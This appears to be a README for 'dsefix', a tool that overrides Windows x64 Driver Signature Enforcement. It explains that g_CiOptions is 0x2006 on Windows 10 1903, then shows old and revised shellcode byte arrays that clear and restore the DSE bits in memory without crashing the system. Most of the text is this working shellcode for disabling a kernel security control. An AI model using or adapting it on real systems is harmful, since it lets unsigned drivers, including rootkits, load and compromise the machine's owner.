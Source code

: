 # dsefix  
Windows x64 Driver Signature Enforcement Overrider  


In windows 10 1903, g_CiOptions value is not 0x6 but 0x2006.  
I changed shellcode using bit operation so no more bsod when DSE re-enabled.  

before  
```
/*
**  Disable DSE (Vista and above)
**  xor rax, rax
**  ret
*/
const unsigned char scDisable[] = {
    0x48, 0x31, 0xc0, 0xc3
};

/*
**  Enable DSE (W8 and above)
**  xor rax, rax
**  mov al, 6
**  ret
*/
const unsigned char scEnable8Plus[] = {
    0x48, 0x31, 0xc0, 0xb0, 0x06, 0xc3
};
```
after
```
/*
**  Disable DSE (W7 also has ci.dll)
**  mov eax,[g_CiAddress]
**  and al,~6
**  ret
*/
unsigned char scDisable[] = {
	0xA1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x24, 0xF9, 0xC3
};

/*
**  Enable DSE
**  mov eax,[g_CiAddress]
**  or al,6
**  ret
*/
unsigned char scEnable[] = {
	0xA1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0C, 0x06, 0xC3
};
```
